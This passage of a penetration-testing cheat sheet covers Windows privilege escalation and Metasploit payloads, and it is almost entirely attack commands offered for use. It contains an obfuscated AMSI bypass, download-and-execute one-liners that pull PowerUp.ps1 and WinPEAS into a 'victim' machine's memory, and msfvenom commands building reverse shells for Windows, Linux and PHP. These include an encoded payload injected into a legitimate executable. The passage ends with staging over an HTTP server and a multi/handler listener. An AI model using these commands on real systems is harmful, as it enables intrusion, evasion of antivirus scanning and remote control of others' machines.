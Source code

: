 	ECHO %Temp%
	PS victim: IEX (New-Object Net.WebClient).DownloadString("https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Privesc/PowerUp.ps1"			#get from Github or 
	PS victim: powershell -ep bypass
	PS victim: sET-ItEM ( 'V'+'aR' + 'IA' + 'blE:1q2' + 'uZx' ) ( [TYpE]( "{1}{0}"-F'F','rE' ) ) ; ( GeT-VariaBle ( "1Q2U" +"zX" ) -VaL )."A`ss`Embly"."GET`TY`Pe"(( "{6}{3}{1}{4}{2}{0}{5}" -f'Util','A','Amsi','.Management.','utomation.','s','System' ) )."g`etf`iElD"( ( "{0}{2}{1}" -f'amsi','d','InitFaile' ),( "{2}{4}{0}{1}{3}" -f 'Stat','i','NonPubli','c','c,' ))."sE`T`VaLUE"( ${n`ULl},${t`RuE} )
	PS victim: Import-Module PowerUp.ps1
	PS victim: . .\PowerUp.ps1
	PS victim: Invoke-AllChecks
	
*PowerUp.ps1 without touching Disk (load module directly into memory)*

	PS C:\> IEX (New-Object Net.WebClient).DownloadString("https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Privesc/PowerUp.ps1")
	cd /usr/share/windows-resources/powersploit/Privesc/ | python3 -m http.server 9000		#get from LAN
	PS victim: IEX(New-Object Net.WebClient).DownloadString(‘http://<kali_ip>:9000/PowerUp.ps1’)
	cmd victim: C:\> powershell –exec bypass
	PS C:\> Import-Module PowerUp.ps1
	PS C:\> . .\PowerUp.ps1
	PS C:\> Invoke-AllChecks

**[WinPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/winPEAS)**
	
	PS victim: IEX (New-Object Net.WebClient).DownloadString('https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/blob/master/winPEAS/winPEASexe/winPEAS/bin/Obfuscated%20Releases/winPEASany.exe?raw=true')
	PS victim: . .\winpeas.exe


## 15. Metasploit

**msfvenom**	

	msfvenom -p windows/meterpreter/reverse_https LHOST=10.10.10.160 LPORT=443 -f exe -o https_rev.exe  	#https rev
	msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.10.160 LPORT=4445 -f exe -o evil2.exe  		#tcp rev
	msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.10.160 LPORT=4445 -f exe -e x86/shikata_ga_nai -i 9 -x ori_idm.exe -o evil_idm.exe  #payload injection into binary
	msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.10.10.160 LPORT=443 -f elf > revshell.elf  	#linux revshell
	msfvenom -p php/meterpreter_reverse_tcp LHOST=10.10.10.160 LPORT=443 -f raw > rev_shell.php   		#PHP revshell
	
	python3 -m http.server 9000
	PS victim: Invoke-WebRequest -Uri http://10.10.10.160:9000/evil2.exe -OutFile evil2.exe
	
	msf > use exploit/multi/handler
	msf exploit(handler) > set payload windows/meterpreter/reverse_tcp
	payload => windows/meterpreter/reverse_tcp
	msf exploit(handler) > set lhost 10.10.10.160
	lhost => 10.10.10.160
	msf exploit(handler) > set lport 4445
	lport => 4445
	msf exploit(handler) > run
